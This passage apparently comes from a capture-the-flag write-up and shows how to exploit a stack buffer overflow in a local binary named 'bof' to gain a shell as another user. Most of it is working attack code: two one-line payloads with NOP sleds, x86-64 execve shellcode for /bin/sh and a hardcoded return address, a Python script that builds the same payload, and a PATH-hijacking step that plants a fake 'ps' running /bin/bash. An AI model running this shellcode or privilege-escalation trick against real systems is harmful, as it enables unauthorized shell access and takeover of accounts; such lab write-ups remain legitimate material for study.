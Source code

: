 Now we just need to know how to execute this outside of GDB so the binary can
run as kel.
Let's execute the binary outside of GDB just like before.
The only exception to this is we surround with brackets and immediately call
cat so that stdin is not closed when we execute the program.

```bash
(python -c "print('\x90'*(616 - 24 - 100) + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + '\x90'*100 + '\x3c\xe3\xff\xff\xff\x7f\x00\x00')";cat) | ./bof
(python -c "print('\x90'*(616 - 27 - 100) + '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + '\x90'*100 + '\x3c\xe3\xff\xff\xff\x7f\x00\x00')";cat) | ./bof
```

## Privilege escalation

echo "/bin/bash" > /tmp/ps
chmod +x /tmp/ps
export PATH=/tmp:$PATH

## Other Methods

```python
from struct import pack
#buf = "\xcc"*8
buf = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
payload = "\x90"*400
payload += buf
payload += "A" * (208 - len(buf))
payload += "B" * 8
payload += pack("<Q", 0x7fffffffe300)

print payload
```

```bash
python exploit.py > text
(cat text;cat) | ./bof
```

```json
```

